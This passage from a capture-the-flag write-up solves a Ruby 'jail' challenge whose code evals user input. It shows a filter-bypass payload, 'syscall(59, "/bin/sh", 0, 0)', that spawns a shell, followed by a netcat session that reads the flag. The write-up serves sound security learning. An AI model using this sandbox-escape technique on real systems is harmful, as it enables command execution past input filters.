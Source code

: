```rb
  print "[+] > "
  input = gets.chomp

  unless sanitize_input(input)
    puts "Invalid characters detected!"
    next
  end

  if input.start_with?("ruby:")
    begin
      eval(input[5..])
    rescue Exception => e
      puts "Error: #{e.message}"
    end
    next
  end

  execute_command(input)
end
```

In this ruby jail, there are 2 ways we can execute commands.
The first is through `execute_command(cmd)` but only `ls` is allowed.
The second is through `eval(input[5..])` when the user's input starts with `ruby:`

The goal here is to execute system commands using ruby without using any of the filtered words.
My idea was to make syscalls since it would let us call /bin/sh without using system.
You can refer to [this](https://aonemd.com/posts/making-system-calls-from-ruby/) blog post on making system calls from ruby.

```
root@aa2084ac62b0:/ctf# nc 157.180.92.15 39022
========================
=    Eevee's Jail 5    =
========================
[+] > ruby:syscall(59, "/bin/sh", 0, 0)
ruby:syscall(59, "/bin/sh", 0, 0)
: 0: can't access tty; job control turned off
$ ls
ls
flag.txt  jail-5.rb
$ cat flag.txt
cat flag.txt
bbctf{different language, same approach xx}
```

### Strings (Mobile)

> Introduction to mobile source code review
>
> Author: Identities
